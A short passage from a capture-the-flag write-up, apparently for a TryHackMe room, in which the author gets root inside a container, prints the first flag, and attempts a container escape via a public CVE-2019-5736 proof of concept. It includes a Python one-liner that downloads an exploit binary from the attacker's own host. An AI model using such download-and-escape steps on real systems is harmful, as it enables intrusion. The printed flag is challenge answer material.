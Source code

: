 ```py
cmd = ""

for c in cmd_ascii:
  cmd += chr(c)

print(fct(cmd))
```

Running `id` :
```
uid=0(root) gid=0(root) groups=0(root)
```

Seems like we are root but i think we are in a container.

We can retrieve the `/root/flag1.txt`:
```
THM{7e0b5cf043975e3c104a458a8d4f6f2f}
```

Hmm yup we are in a container, how can we escape the container ?

Maybe we can use this poc :
```
https://github.com/Frichetten/CVE-2019-5736-PoC
```
We can retrieve files using :
```
python3 -c 'import urllib.request; urllib.request.urlretrieve("http://10.2.13.34:8000/exp","exp")'
```

Tried to run it but seems like I broke the box. Let's try again later...